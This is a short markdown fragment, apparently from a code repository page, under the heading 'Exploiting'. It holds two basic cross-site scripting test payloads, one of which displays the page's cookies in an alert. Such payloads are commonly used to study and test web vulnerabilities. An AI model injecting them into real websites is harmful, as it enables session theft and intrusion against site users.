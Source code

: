 # Exploiting 

```
<script>alert('XSS Success')</script>
<script>alert('Cookie:'+document.cookie)</script>
```
